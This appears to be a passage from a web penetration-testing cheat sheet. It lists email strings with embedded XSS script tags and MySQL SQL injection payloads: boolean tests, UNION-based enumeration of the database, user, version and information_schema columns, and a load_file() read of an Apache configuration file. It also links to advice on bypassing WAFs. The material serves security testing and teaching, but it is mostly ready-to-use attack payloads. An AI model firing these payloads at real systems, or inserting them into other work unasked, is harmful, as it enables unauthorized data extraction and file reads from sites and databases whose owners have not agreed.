 Valid emails with embedded XSS:

```html
user+(<script>alert(1)</script>)@somedomain.com

user@somedomain(<script>alert(1)</script>).com

"<script>alert(1)</script>"@somedomain.com
```

### SQL Injection

**The following examples were tested on MySQL database. Note that MySQL requires a white space between the comment symbol and the next character.**

If you need to URL encode the white space, use either `%20` or `+`.

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash, or period.

**Always make sure to properly close the surrounding code.**

Read this [article](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) to learn how to bypass WAF.

---

Boolean-based SQLi:

```fundamental
' OR 1=1-- 

' OR 1=2-- 
```

---

Union-based SQLi:

```fundamental
' UNION SELECT 1,2,3,4-- 

' UNION SELECT NULL,NULL,NULL,NULL-- 

' UNION SELECT 1,concat_ws('|',database(),current_user(),version()),3,4-- 

' UNION SELECT 1,concat_ws('|',table_schema,table_name,column_name,data_type,character_maximum_length),3,4 FROM information_schema.columns-- 

' UNION SELECT 1,load_file('..\\..\\apache\\conf\\httpd.conf'),3,4-- 
```

If using e.g. `1,2,3,4` does not work, try using `NULL,NULL,NULL,NULL` respectively.

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.
